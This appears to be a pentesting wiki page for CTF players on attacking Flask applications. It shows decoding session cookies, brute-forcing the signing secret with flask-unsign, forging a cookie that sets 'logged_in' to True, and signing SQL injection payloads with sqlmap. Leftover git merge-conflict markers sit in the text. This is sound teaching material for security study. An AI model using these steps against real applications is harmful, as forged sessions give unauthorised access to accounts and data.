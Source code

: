 # Flask

## Flask

**Probably if you are playing a CTF a Flask application will be related to** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)**.**

### Cookies

Default cookie session name is **`session`**.

#### Decoder

Online Flask coockies decoder: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

**Manual**

Get the first part of the cookie until the first point and Base64 decode it&gt;

```bash
echo "ImhlbGxvIg" | base64 -d
```

The cookie is also signed using a password

#### **Flask-Unsign**

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.

{% embed url="https://pypi.org/project/flask-unsign/" caption="" %}

```bash
pip3 install flask-unsign
```

**Decode Cookie**

```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```

**Brute Force**

```bash
flask-unsign --unsign --cookie < cookie.txt
```

**Signing**

```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```

**Signing using legacy \(old versions\)**

```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```

## &lt;&lt;&lt;&lt;&lt;&lt;&lt; HEAD

#### SQLi in Flask session cookie with SQLmap

[**This example**](../../pentesting-web/sql-injection/sqlmap/#eval) **\*\*uses sqlmap `eval` option to** automatically sign sqlmap payloads\*\* for flask using a known secret.

> > > > > > > upstream/master


